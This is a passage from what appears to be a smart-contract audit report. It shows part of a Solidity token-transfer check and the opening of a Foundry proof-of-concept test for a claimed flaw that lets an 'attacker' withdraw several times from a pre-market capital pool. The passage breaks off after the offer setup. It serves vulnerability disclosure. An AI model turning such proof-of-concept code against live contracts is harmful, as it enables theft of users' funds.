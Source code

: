```Solidity

        _safe_transfer_from(_token, _from, _to, _amount);

        uint256 fromBalanceAft = IERC20(_token).balanceOf(_from);
        uint256 toBalanceAft = IERC20(_token).balanceOf(_to);

        if (fromBalanceAft != fromBalanceBef - _amount) {
            revert TransferFailed();
        }

        if (toBalanceAft != toBalanceBef + _amount) {
            revert TransferFailed();
        }
    }
```

**Proof of code**

Add the follow code in `PreMarkets.t.sol`.

Note: Please note that this test case depends on the `withdraw` function being implemented correctly. The current implementation has an additional flaw where the approval step is missing, preventing the withdrawal process from completing successfully.

```Solidity
   function test_userCanWithdrawMultipleTimes() public {
        address attacker = makeAddr("attacker");

        uint256 initialAttackerBalance = 1 ether;
        vm.deal(attacker, initialAttackerBalance);
        /// 1st user create offer with 1 ether
        vm.prank(attacker);
        preMarktes.createOffer{value: 1 * 1e18}(
            CreateOfferParams(
                marketPlace,
                address(weth9),
                1000,
                1 * 1e18,
                12000,
                300,
                OfferType.Bid,
                OfferSettleType.Turbo
            )
        );

        /// 2nd user create offer with 1 ether
        vm.prank(user1);
        preMarktes.createOffer{value: 1 * 1e18}(
            CreateOfferParams(
                marketPlace,
                address(weth9),
                1000,
                1 * 1e18,
                12000,
                300,
                OfferType.Bid,
                OfferSettleType.Turbo
            )
        );

        // Initial balance check
        uint256 initialPoolBalance = weth9.balanceOf(address(capitalPool));
        assertEq(initialPoolBalance, 2 ether, "Capital pool should have 2 ETH");

        // First offer stock and offer addresses
```